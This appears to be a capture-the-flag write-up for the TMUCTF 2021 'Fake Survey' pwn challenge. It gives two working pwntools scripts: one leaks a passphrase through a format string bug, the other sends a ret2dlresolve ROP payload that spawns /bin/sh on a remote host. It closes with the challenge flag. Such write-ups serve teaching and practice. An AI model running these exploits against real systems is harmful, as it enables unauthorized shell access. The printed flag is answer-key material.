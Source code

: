# Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This challenge has two steps. In the first step we have to use `format string` vulnerability to leak the needed passPhrase. In second step we can use `return ro dl_reslove` technique.   
Here is the script used for the first step (also available in [solve_step1.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step1.py)):    
```python
import pwn
import time

i = 1
l = []
while(i != 15):
	r = pwn.remote('185.235.41.205', 7050)
	p = "%" + str(i) + "$p"
	r.sendline(p)
	r.recvlines(21)
	adminPass = r.recvline().split(" ")[-1]
	print(adminPass)
	l.append(adminPass)
	i = i + 1
pl = []
for k in l:
	try:
		pl.append(pwn.p32(int(k, 16)))
	except Exception as e:
		pass
print("".join(pl))
```   
And for `return to dl_resove` I used `Ret2dlresolvePayload` class of `pwntools`. Here is its script (also available in [solve_step2.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Fake%20Survey/Writeup%20Files/solve_step2.py)):  
```python
from pwn import *
context.binary = elf = ELF('./fakesurvey')

rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote('185.235.41.205', 7050)
p.sendline("CPRSyRMOFa3FVIF")
p.sendline(fit({64+context.bytes*3: raw_rop, 200: dlresolve.payload}))
p.interactive()
```   
The flag:   
```
TMUCTF{m4yb3_y0u_u53d_7h3_574ck_4nd_r37urn3d_70_dl_r350lv3}
```  
